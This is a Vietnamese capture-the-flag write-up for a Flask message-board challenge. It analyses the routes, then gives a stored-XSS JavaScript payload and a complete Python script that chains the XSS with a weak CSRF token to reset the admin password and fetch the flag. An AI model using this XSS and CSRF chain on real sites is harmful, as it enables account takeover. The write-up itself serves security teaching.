


# Analysis
Cấu trúc thư mục:
```
├── deploy
│   ├── app.py
│   ├── flag
│   ├── requirements.txt
│   ├── run.sh
│   ├── static
│   │   └── style.css
│   ├── styles
│   │   ├── 2ee2c0f4-657d-48df-a528-164f1ee06037.json
│   │   └── 7d939edc-569c-42f0-9f84-b305a4326e1c.json
│   └── templates
│       ├── board.html
│       ├── login.html
│       ├── mypage.html
│       ├── report.html
│       ├── style.html
│       ├── view_post.html
│       └── write_post.html
└── Dockerfile
```
Sau khi phân tích file `app.py` mình đã rút ra được các vấn đề lỗi tại các route sau:

`csrf-token` được lấy thông qua hàm `get_token(username)` => chúng ta có thể lấy được csrf-token của admin khi chúng ta có session admin.

`/login`: Tiếp theo đó route này cho tạo session đăng nhập theo `username`. Việc kiểm tra password chỉ là cơ chế để cài đặt `session[is_admin]` = `true` hoặc `false` => login với username là `admin` => có session[admin] =>  có được `csrf-token`

`/mypage`:  Thực hiện việc đổi password của admin nếu đang ở `session[is_admin]=true` và có `csrf-token` hợp lệ.

`/report`: Thực hiện đưa `path` vào `url=f"http://127.0.0.1:8000/{path}"` sau đó gửi `url` qua hàm `check_url`, ở đây hàm `check_url` sẽ chạy browser truy cập vào trang web `http://127.0.0.1:8000/login` account admin từ hệ thống. Sau đó sẽ thực hiển mở `url` đưa vào.


`/board/write`: Thực hiện việc tạo bài `post` với `titile` và `content` do người dùng kiểm soát.

`/board/<int:post_id>`: cho phép người dùng truy cập bài viết theo ID và hiển thị nội dung thông qua biến post.content. Trong template, đoạn mã:
```html
...
    <div class="post-content">
        
        {{ post.content }}
        
    </div>
...
```
đã vô hiệu hóa cơ chế HTML escaping đối với post.content. Do đó, dữ liệu do người dùng kiểm soát được chèn trực tiếp vào HTML của trang. Nếu nội dung chứa mã HTML hoặc JavaScript, trình duyệt sẽ phân tích và thực thi mã đó. Ảnh bên dưới là việc kiểm tra Store XSS thành công:



# Solution
Từ việc phân tích trên mình đã xác định được challenge này xuất hiện lỗ hổng Store XSS và CSRF, có cơ chế chống CSRF bằng csrf-token nhưng lại cấu hình không đúng khiến có thể lấy một cách dễ dàng.

Các bước thực hiện gồm:

1. Đăng nhập /login với username: admin, sau đó truy cập vào /mypage lấy được `csrf-token`
2. Tạo bài post với `Content` là payload dưới
```js
<script>
fetch('/mypage', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: new URLSearchParams({
    username: 'admin',
    'new-password': 'admin',
    'csrf-token': 'value'
  })
});
</script>
```
3. Gửi đường dẫn post vừa tạo tới `/report`
4. Sau khi `/report` phản hồi thành công thực hiện đăng nhập bằng account admin bằng password vừa reset để lấy `session[admin]` và `session[is_admin]=true`
5. Gửi request `POST /admin` với `csrf-token` từ bước 1 và session ở bước 4.


# Script
```python
import re
import requests


# Sửa các giá trị này nếu cần.
BASE_URL = "http://192.168.132.179:8000"
NEW_PASSWORD = "admina"
ADMIN_CSRF_TOKEN = "PZsPPYdDTDRsFVWG"


# Session này dùng để tạo bài viết và gửi report.
attacker = requests.Session()

# Đăng nhập bằng username bất kỳ.
attacker.post(
    BASE_URL + "/login",
    data={"username": "guest", "password": "guest"},
)

# Lấy CSRF token để tạo bài viết.
page = attacker.get(BASE_URL + "/board/write")
write_token = re.search(
    r'name="csrf-token" value="([^"]+)"', page.text
).group(1)

# Payload dùng token admin đã quan sát thủ công.
payload = f"""
<script>
fetch('/mypage', {{
  method: 'POST',
  headers: {{'Content-Type': 'application/x-www-form-urlencoded'}},
  body: new URLSearchParams({{
    username: 'admin',
    'new-password': '{NEW_PASSWORD}',
    'csrf-token': '{ADMIN_CSRF_TOKEN}'
  }})
}});
</script>
"""

# Tạo bài viết chứa XSS.
attacker.post(
    BASE_URL + "/board/write",
    data={
        "title": "xss",
        "content": payload,
        "csrf-token": write_token,
    },
)

# Bài viết mới thường là bài cuối cùng trong board.
board = attacker.get(BASE_URL + "/board")
post_ids = re.findall(r'/board/(\d+)', board.text)
post_id = post_ids[-1]
print("Bài viết XSS:", post_id)

# Cho bot truy cập bài viết.
report = attacker.post(
    BASE_URL + "/report",
    data={"path": "board/" + post_id},
)
print("Report:", report.text)

# Đăng nhập lại bằng mật khẩu mới.
admin = requests.Session()
admin.post(
    BASE_URL + "/login",
    data={"username": "admin", "password": NEW_PASSWORD},
)

# Lấy token hiện tại và gọi /admin để lấy flag.
mypage = admin.get(BASE_URL + "/mypage")
admin_token = re.search(
    r'name="csrf-token" value="([^"]+)"', mypage.text
).group(1)
result = admin.post(BASE_URL + "/admin", data={"csrf-token": admin_token})
print("Kết quả:", result.text)

```